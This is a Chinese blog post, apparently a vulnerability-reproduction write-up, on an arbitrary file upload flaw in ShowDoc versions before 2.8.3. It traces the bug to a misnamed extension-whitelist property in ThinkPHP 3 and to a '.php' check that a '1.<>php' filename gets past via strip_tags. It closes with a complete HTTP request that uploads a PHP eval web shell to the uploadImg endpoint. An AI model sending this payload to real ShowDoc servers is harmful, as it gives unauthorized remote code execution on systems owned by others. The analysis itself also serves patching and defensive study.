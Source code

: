 ﻿---
title: ShowDoc 任意文件上传漏洞
categories: 漏洞复现
---
# 前言

版本比较老了，界面是这样的，没更新的可以利用，ShowDoc < V2.8.3

![](https://img-blog.csdnimg.cn/20210627133103829.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)


<!--more-->
# 漏洞位置
`\server\Application\Api\Controller\PageController.class.php`

# 漏洞分析
![](https://img-blog.csdnimg.cn/20210627171056647.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

漏洞处：

```php
 $upload = new \Think\Upload();// 实例化上传类
      $upload->allowExts  = array('jpg', 'gif', 'png', 'jpeg');// 设置附件上传类型
 ```

我们去看看`Think\Upload()类`

`ThinkPHP/Library/Think/Upload.class.php`就是Upload类的源码。我们可以发现上述代码中的`allowExts`属性其实并`不存在`，TP3 中限制上传文件后缀类型的属性应该是`exts`

```php
class Upload {
    /**
     * 默认上传配置
     * @var array
     */
    private $config = array(
        'mimes'         =>  array(), //允许上传的文件MiMe类型
        'maxSize'       =>  0, //上传的文件大小限制 (0-不做限制)
        'exts'          =>  array(), //允许上传的文件后缀       //就是这里出现问题
        'autoSub'       =>  true, //自动子目录保存文件
        'subName'       =>  array('date', 'Y-m-d'), //子目录创建方式，[0]-函数名，[1]-参数，多个参数使用数组
        'rootPath'      =>  './Uploads/', //保存根路径
        'savePath'      =>  '', //保存路径
        'saveName'      =>  array('uniqid', ''), //上传文件命名规则，[0]-函数名，[1]-参数，多个参数使用数组
        'saveExt'       =>  '', //文件保存后缀，空则使用原后缀
        'replace'       =>  false, //存在同名是否覆盖
        'hash'          =>  true, //是否生成hash编码
        'callback'      =>  false, //检测文件是否存在回调，如果存在返回文件信息数组
        'driver'        =>  '', // 文件上传驱动
        'driverConfig'  =>  array(), // 上传驱动配置
    );
```

那么这样附件上传类型就没有限制了，但是在上面还有一处限制后缀为.php的检测

```php
 if (strstr(strtolower($_FILES['editormd-image-file']['name']), ".php") ) {
            return false;
        }
```

那么怎么绕过这个检测呢？

还是在TP中，碰巧有这个函数：

```php
foreach ($files as $key => $file) {
            $file['name']  = strip_tags($file['name']);
```

>strip_tags() 函数剥去字符串中的 HTML、XML 以及 PHP 的标签。


那么我们构造`1.<>php`即可绕过

# 漏洞复现

poc:
```XML
POST /index.php?s=/home/page/uploadImg HTTP/1.1
Host: xxx.xxx.xxx.xxx:port
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: multipart/form-data; boundary=--------------------------921378126371623762173617
Content-Length: 262

----------------------------921378126371623762173617
Content-Disposition: form-data; name="editormd-image-file"; filename="1.<>php"
Content-Type: text/plain

<?php echo '123_test';@eval($_REQUEST[cmd])?>
----------------------------921378126371623762173617--
```

![](https://img-blog.csdnimg.cn/20210627180414239.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)


